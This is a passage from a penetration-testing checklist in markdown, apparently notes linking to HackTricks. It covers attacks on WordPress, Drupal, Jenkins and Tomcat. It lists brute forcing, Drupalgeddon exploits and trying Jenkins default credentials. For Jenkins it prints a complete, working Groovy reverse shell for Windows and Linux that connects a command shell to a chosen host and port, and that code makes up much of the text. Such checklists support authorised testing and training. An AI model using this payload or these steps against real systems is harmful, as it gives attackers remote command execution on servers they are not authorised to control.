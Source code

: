       * [ ] Check plugins for vulnerabilities
    * [ ] wpscan brute

#### Drupal

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/drupal" %}

* [ ] Droopescan
* [ ] Check changelog.txt for version information
* [ ] find endpoint\_path
* [ ] Attack Vectors
  * [ ] Drupalgeddon2
  * [ ] Drupalgeddon3
  * [ ] Drupal 7.x Module Services RCE

#### Jenkins

{% embed url="https://book.hacktricks.xyz/cloud-security/jenkins" %}

* [ ] Default Credentials
  * [ ] Create new user
* [ ] Identify version and exploits targetting that version
* [ ] Groovy Reverse Shell:

Windows:

```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

Linux:&#x20;

```
String host="localhost";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

* [ ] Create new job
* [ ] Can we use curl or cronjob to execute commands?

#### Tomcat

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat" %}
